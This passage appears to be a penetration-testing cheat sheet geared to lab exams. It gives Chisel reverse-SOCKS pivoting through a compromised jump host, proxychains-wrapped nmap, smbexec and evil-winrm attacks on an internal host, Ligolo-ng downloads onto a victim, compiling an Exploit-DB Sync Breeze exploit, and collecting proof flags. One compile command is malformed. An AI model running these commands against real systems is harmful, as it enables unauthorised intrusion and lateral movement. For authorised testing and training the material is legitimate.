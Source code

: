 ```bash
.\Chisel.exe client --max-retry-count 1 192.168.60.200:1080 R:socks

#You can now attack the third server (ex. 10.0.60.99) by adding proxychains -q before every command. The -q is for quiet mode since most attackers won’t need verbose proxy traffic
#The traffic flows into port 1080 on your machine and out on your jump host, which has established a connection back to your listener on the port you specified when executing chisel server
proxychains -q nmap -sC -sV 10.0.60.99
proxychains -q ssh user@10.0.60.99
proxychains -q mysql -u dbuser -h 10.0.60.99
proxychains -q impacket-smbexec domain\user: -target-ip  10.0.60.99
proxychains -q evil-winrm -i 10.0.60.99 -u 'domain\user' -p ''

#or on attacker's kali, you can connect to the third server using 127.0.0.1 on web browser. If the web browser shows unable to connect, then add thehost name to /etc/hosts
```

### Using Ligolo-ng
- Agent (victim): `sudo wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz`
- Proxy (Kali): `sudo wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz`
- [Full guide](https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740)

## compiling windows exploit on kali
```bash
#compile C code
gcc -o syncbreeze_exploit.exe exploit.c

#compile 32 bit
apt install mingw-w64
i686-w64-mingw32-gcc /usr/share/exploitdb/exploits/windows/dos/42341.c -o syncbreeze_exploit.exe -lws2_32

#compile 64 bit
$ gcc i686-w64-mingw32-gcc exploit.c -o exploit.exe
```

## Post exploitation evidence
```bash
cat /root/proof.txt
whoami
ip a

type local.txt
type "C:\Documents and Settings\Administrator\Desktop\proof.txt"
systeminfo
ipconfig
```
## Permissions
```bash
#modifying permissions
chmod 600 id_rsa
chmod a+x ./linpeas.sh
```

